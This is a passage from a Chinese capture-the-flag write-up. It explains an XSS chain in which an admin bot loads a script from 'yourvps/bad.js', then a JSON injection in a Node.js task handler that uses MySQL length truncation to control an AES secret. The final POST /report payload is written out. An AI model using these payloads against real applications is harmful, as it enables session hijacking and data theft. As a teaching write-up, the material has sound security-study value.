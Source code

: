 触发流程就是

`doReportHandler`接受请求 -> puppeteer登录admin账户 -> 访问传入的url -> 加载我们的bad.js -> 连接应用一的websocket并发送消息 -> 拿到flag（加密后的）

## 0x05 JSON注入

利用刚刚的payload我们只能得到加密过的信息。

![4](4.png)

我们还需要一个密钥来对信息进行解密，继续挖源码，这里用的是aes加密，admin账户的密钥是初始化数据库的时候就写死的。

这里卡了好久，一开始的思路还是从绕过跨域来拿到admin账户的密钥

试了修改`document.domain`+iframe，但是并没有成功绕过，看来CORS以及把我们能想到的都想了。

那只能继续挖源码了。

搜了下nodejs常见漏洞，看到有一个反引号“\`”的用法，`wsHandler.js`里有一段代码用到了反引号

```js
await db.addTask(userId, `{"title":"${data.title}","description":"${data.description}","secret":"${secret}"}`);

    async addTask(userId, data) {
        const result = await this.query('INSERT INTO todos (user_id, data) VALUES (?, ?)', [userId, data]);
        return result;
    }
    ...

    const task = JSON.parse(result.data);
```

这里的反引号直接生成的是一个字符串，然后这个字符串直接被插入了数据库，然后这个data在取出来的时候直接用JSON.parse解析，那么这里我们可以通过控制我们传入的`description`的值，来修改让这个json变成我们想要的内容。

比如`description`传`desc\",\"secret\":\"bad secret\"}`

![5](5.png)
可以看到data字符串成功被我们修改。

还有一个问题，这个字符串在被`JSON.parse`解析的时候依然会报错。

对于这个点，因为data字段的长度最大是255

`data VARCHAR(255) NOT NULL,`

我们可以通过在前面填充垃圾数据方式让后面导致json无效的字串被mysql截段。

这里我们成功通过JSON注入让secret可控，secret可控，那我们就可以调用应用给的解密接口解密出密钥了。

## 0x06 最终流程及payload

首先，随便注册一个账号并登录

然后，在`POST /report`
```json
{
    "url": "http://127.0.0.1:8080/index.php?html=%3Cscript%20src=%22http://yourvps/bad.js%22%3E%3C/script%3E"
}
```
在vps上拿到加密的flag，并用我们注入的secret解密
